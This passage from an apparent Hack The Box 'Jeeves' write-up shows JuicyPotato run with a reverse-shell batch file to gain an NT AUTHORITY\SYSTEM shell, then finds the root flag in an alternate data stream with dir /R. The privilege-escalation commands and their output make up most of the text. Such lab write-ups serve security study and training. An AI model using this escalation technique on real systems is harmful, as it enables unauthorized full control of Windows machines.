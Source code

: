 
Then I ran `JuicyPotato` and it executes `bat` file 
```
C:\Users\kohsuke\Downloads>juicypotato.exe -p C:\Users\kohsuke\Downloads\rev.bat -l 3333 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
juicypotato.exe -p C:\Users\kohsuke\Downloads\rev.bat -l 3333 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 3333
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\kohsuke\Downloads>
```

It worked and I got shell as `nt authority\system`<br/>
![02dc22dc81065e2fe4c3984bd1e8b881.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/111e7f1413c14d8589badc5db005068e.png)


When I tried to get Root Flag and it hidden.
```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,534,071,808 bytes free

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```


To see files with an alternate data stream do a `dir /R`
```
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
```
